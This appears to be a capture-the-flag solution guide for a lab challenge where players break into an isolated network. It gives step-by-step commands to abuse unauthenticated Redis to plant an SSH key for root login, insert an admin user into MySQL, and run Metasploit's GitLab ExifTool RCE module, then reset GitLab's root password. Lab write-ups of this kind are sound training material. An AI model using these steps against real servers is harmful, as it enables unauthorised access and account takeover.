

# Git in and Git out

*Solution Guide*

## Overview

In *Git in and Git out*, players must exploit a development environment to retrieve tokens from the GitLab server and the web server. Players are given the address to the `login.merch.codes` website and SSH access to 10.1.1.50 with stolen credentials for a developer's computer inside the network. Players must retrieve the tokens by logging into the web server with an administrator account and getting root access on GitLab.

## Question 1

*Retrieve Token 1 from the web server.*

1. Browse to `login.merch.codes` (`10.7.7.100`). You won't find much there, so let's use the developer machine to see what we can find.
   
    

2. SSH into the developer machine at `10.1.1.50`:	
	
    ```bash
	ssh user@10.1.1.50
	```

	Use the credentials provided: `user` | `tartans`.

3. Explore the contents of the `home` directory; specifically, in the `Documents` folder locate the `Secrets` file and the `website` folder. performing a ```cat``` command on `Secrets` reveals "PAT" and a value. This is the Personal Access Key for the developer account on `gitlab.merch.codes`. If you can exploit anything with that info, good luck, but we'll keep looking.

4. In the `website` folder, notice the entire website is stored on the developer's machine.  

5. Run the `ls -la` command. Results show you this is a Git Repository. Performing any `git` command prompts you for credentials to `http://gitlab.merch.codes`. Now, we have that location.
  
	

6. Continue to examine the files in the `website` folder. Examine the index page of the website.
   
	

	The index page is sending post data to login.php.

7. Examine login.php and see it calls a **db_config** file in the `/includes` directory and checks credentials against a database. Also notice it stores session information in **redis** according to the comments.  Note it checks an "isadmin" field to determine whether to display the user page or the admin page.

	

8. Examine admin.php and see it will display Token 1.

	

9. Examine the db_config.php file and note the database server address. You'll notice the database name the site uses and database credentials, but--spoiler alert--they're read-only.

	

10. Run `nmap` against the database.

	```bash
	nmap -sV -p- 10.2.2.100
	```

	You'll see **ssh**, **mysql**, and **Redis** are available on the server.  
	
	

11. Connect to the Redis server because you don't have passwords for the accounts on SSH.

	```bash
	redis-cli -h 10.2.2.100
	```

	Now we're connected with Redis command line to the server. How can we exploit it? 

	

	Here is an article that describes how redis is vulnerable to privilege escalation attacks that gives more information on what we're doing in the next few steps: [Redis Unauthorized Access Vulnerability Simulation](https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419).

12. Let's exploit Redis. Write your ssh public key to the server's `/.ssh/authorized_keys` file:
    
	In the command line for the developer machine:
	
	```bash
	cd ~/.ssh
	```
	
    then
	
	```bash
	ssh-keygen
	```

	Press **Enter** at any prompts: 

	

13. `ll` shows you your newly generated keys. You could have used one of the existing keys if you preferred.

14. Follow the instructions in the Victor Zhu article:

	```bash
	(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
	```

15. `cat temp.txt` verifies the key was written. 

	

16. Send to Redis and set as `s-key`:

	```bash
	cat ./temp.txt | redis-cli -h 10.2.2.100 -x set s-key
	```

17. Reconnect to Redis, get `s-key`, and verify the value is stored:

	```bash
	redis-cli -h 10.2.2.100
	get s-key
	```

	

18. Change the directory in Redis: 

	```
	config set dir /root/.ssh
	```
	...and check with:

	```
	config get dir
	```

	

19. Make yourself a root login on the Redis server.
	
	```
	config set dbfilename authorized_keys
	save
	```

20. `exit` out of redis-cli, and try our SSH login.

	```bash
	ssh -i id_rsa root@10.2.2.100
	```

	

21. Now that you're root, access the database:

	```
	mysql
	show databases;
	```

22. You can see the website database mentioned in the config file.

	```
	use website;
	show tables;
	describe users;
	```

	

23. The preceding commands show you the schema for the website database and users table. You could also try a select statement:

	```sql
	Select * from users;
	```

    ...but all you will find is there is a single, non-admin user in the table.

	```sql
    insert into users (username, password, isadmin) values ("user", "password", 1);
    ```

24. You now have an admin login to the website, so try it out.

	

	>**Note:** Your token will be different because this is an infinity-style challenge.

	

The correct submission for Question 1 is a random six-digit hex value.

## Question 2

*Retrieve Token 2 from GitLab.*

While still logged into the developer machine via SSH: 

1. First, use the PAT from the **Secrets** file to find the GitLab version:

    ```bash
    curl --header "PRIVATE-TOKEN: Gry9enL6QGBEzyGdTxSP" "http://gitlab.merch.codes/api/v4/version"
    ```

    The information returned shows version 13.10.2. This version is vulnerable to an exif upload exploit.
    
    

2. There is a Metasploit module for this. While connected to the developer machine via SSH, type: 

    ```bash
    msfconsole
    ```

3. Enter `search gitlab` to see available exploits. You want: **5 | exploit/multi/http/gitlab_exif_rce | 2021-04-14 | excellent | Yes | GitLab Unauthenticated Remote ExifTool Command Injection**

    

4. Enter the following:

    ```
    use exploit/multi/http/gitlab_exif_rce
    set lhost 10.1.1.50
    set rhost gitlab.merch.codes
    ```

5. Enter:

    ```
    exploit
    ```

    ...it should return this.

    


6. At the Meterpreter prompt, enter:

    ```
    shell
    ```
    You can use commands such as `whoami`, `hostname`, etc., to recon the machine.
   
    

7. `cd` to `/opt/gitlab/bin`.
   
    

8. Once in the `gitlab/bin` directory, enter: 

    ```bash
    gitlab-rake "gitlab:password:reset[root]"
    ```

    You may not get visual feedback, so enter the same (new) password twice:
    
    

9. Having access to the root account, let's find out which projects are owned by root. Still in the GitLab instance, navigate to: `/var/opt/gitlab/git-data/repositories/@hashed/`.

10. Find root's repositories: 

    ```bash
    grep -R root ./*
    ```
    ...you'll get this return.
    
    

11. **token2project** is what we want. If we clone this repo, we will be able to see what's in there.
Exit to the development machine's command line and enter: 

    ```bash
    git clone http://gitlab.merch.codes/root/token2project
    ```

    You will be prompted for username and password. Use **root** and whatever you made the password with the `gitlab-rake` command.

    

12. If you do an `ls` command, you'll see the `token2project` folder. `cd` into it and `ls`--you'll see **README.md** and **token2**.  

13. Enter:

    ```bash
    cat token2
    ```

    >Note: `token2` is a randomly generated hex6 token; your number will be different!

    

The correct submission for Question 2 is a random six-digit hex value.